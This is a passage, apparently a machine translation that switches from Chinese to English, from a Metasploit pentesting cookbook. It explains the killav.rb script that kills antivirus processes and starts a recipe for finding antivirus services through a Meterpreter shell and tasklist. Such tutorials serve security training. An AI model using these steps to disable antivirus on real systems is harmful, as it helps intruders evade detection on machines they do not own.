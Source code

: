 您将发现 ESET antivirus 没有活动进程。这表明该脚本成功地杀死了防病毒程序。这个例子清楚地展示了如何通过向内置脚本中添加我们自己的输入来提高内置脚本的效率。

## 它是如何工作的。。。

让我们快速看一下我们在本食谱中积极使用的 `killav.rb`脚本。脚本包含数组（%W）中的整个进程列表，它在目标计算机上查找要终止的进程。

```
client.sys.process.get_processes().each do |x|
if (avs.index(x['name'].downcase))
print_status("Killing off #{x['name']}...")
client.sys.process.kill(x['pid'])
end
end 
```

代码的最后几行是不言自明的。脚本将查找目标系统上运行的进程与其数组的匹配项。当找到匹配项时，它使用 `process.kill`函数终止进程。此循环将继续，直到阵列的所有元素与可用进程匹配为止。

# 从命令行杀毒

在前面的配方中，我们给出了两个原因来解释为什么即使使用了 `killav.rb`脚本，防病毒进程仍然在运行。在前面的配方中，我们解决了第一个问题， `killav.rb`列表不包括要终止的进程。在此配方中，我们将解决第二个问题，即反病毒程序作为服务在目标计算机上运行。在继续之前，让我们先了解流程和服务之间的区别。

进程是在计算机上运行的任何软件。某些进程在计算机启动时启动，其他进程在需要时手动启动。有些进程是发布方法以访问它们的服务，因此其他程序可以根据需要调用它们。流程是基于用户的，而服务是基于系统的。

防病毒软件还可以将某些组件作为服务运行，如电子邮件过滤器、web 访问过滤器等。 `killav.rb`脚本无法终止服务。因此，即使我们使用 `killav.rb`终止进程，防病毒服务也会立即再次启动它们。因此，即使 `killav.rb`正在杀死所有防病毒进程，并且每次我们使用 `ps`命令时都会列出这些进程，那么可以得出结论，防病毒的某些组件正在作为一个服务运行，负责反复重新启动进程。

## 准备好了吗

我们将从一个场景开始，其中目标计算机是运行 AVG 10 antivirus 的 Windows 7 计算机。我假设我们已经与具有管理权限的目标计算机建立了活动的 MeterMeter 会话。

## 怎么做。。。

1.  此配方将使用 Windows 命令提示符。因此，我们将首先打开一个带有目标的命令提示符 shell。

    ```
    meterpreter > shell
    Process 3324 created.
    Channel 1 created.
    C:\WINDOWS\system32> 
    ```

2.  Now, we will use the `tasklist` command to look for various available tasks. Adding the `/SVC` parameter will list only those processes which are running as a service. As we know that the target machine is using AVG antivirus, we can add a wild card search to list only those services which belong to avg. So our command-line will look as follows:

    ```
    C:\WINDOWS\system32>tasklist /SVC | find /I "avg"
    tasklist /SVC | find /I "avg"
    avgchsvx.exe 260 N/A
    avgrsx.exe 264 N/A
    avgcsrvx.exe 616 N/A
    AVGIDSAgent.exe 1664 AVGIDSAgent
    avgwdsvc.exe 116 avg9wd
    avgemc.exe 1728 avg9emc 
    ```
